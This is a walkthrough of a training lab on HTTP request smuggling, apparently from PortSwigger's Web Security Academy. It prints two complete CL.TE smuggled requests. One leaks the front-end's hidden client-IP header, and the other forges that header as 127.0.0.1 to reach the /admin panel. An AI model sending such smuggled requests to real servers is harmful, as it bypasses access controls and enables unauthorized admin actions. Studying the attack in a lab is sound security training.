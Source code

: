 Title: Exploiting HTTP request smuggling to reveal front-end request rewriting
Level: PRACTITIONER
Desc:  This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.
To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos. 

# Walkthrough: 
<img width="1302" height="383" alt="image" src="https://github.com/user-attachments/assets/e76a431b-4d6b-4817-bf62-b568e1c330f9" />

Sending following request twice: 
```
POST / HTTP/1.1
Host: 0a880056036fed3181e22ff900ca00fc.web-security-academy.net
Cookie: session=XsYmRyC7hZfErzTv0WmF8ctoydCOZ9tO
Content-Length: 124
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close

search=test
```

Second request response with:
<img width="620" height="274" alt="image" src="https://github.com/user-attachments/assets/13cc5563-cca9-4ef5-bd06-b185ea612c0c" />

We can see exactly part of request after merging 2 request and smuggling request:
<img width="575" height="465" alt="image" src="https://github.com/user-attachments/assets/dab1f931-1ca3-4a7d-8c5a-6c7a7c96a206" />

Custom header is : `X-bPGlvZ-Ip: 37.47.212.63`

Now, sending twice following:
```
POST / HTTP/1.1
Host: 0a880056036fed3181e22ff900ca00fc.web-security-academy.net
Cookie: session=XsYmRyC7hZfErzTv0WmF8ctoydCOZ9tO
Content-Length: 153
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Content-Length: 200
X-bPGlvZ-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Connection: close

search=test
```
<img width="1321" height="703" alt="image" src="https://github.com/user-attachments/assets/530754a1-f4e7-4e9f-9b88-92020717a965" />

<img width="1470" height="313" alt="image" src="https://github.com/user-attachments/assets/70c29812-102c-4cd2-8c29-7933a71e8455" />







